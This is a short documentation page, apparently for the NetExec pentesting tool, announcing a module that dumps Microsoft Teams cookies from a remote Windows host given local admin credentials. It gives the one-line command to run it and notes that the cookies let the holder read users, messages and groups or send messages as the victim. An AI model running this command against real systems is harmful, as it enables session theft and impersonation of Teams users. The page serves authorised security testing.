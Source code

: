 # 🆕 Steal Microsoft Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New NetExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec)'s contribution.&#x20;

You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```
$ nxc smb <ip> -u user -p pass -M teams_localdb
```
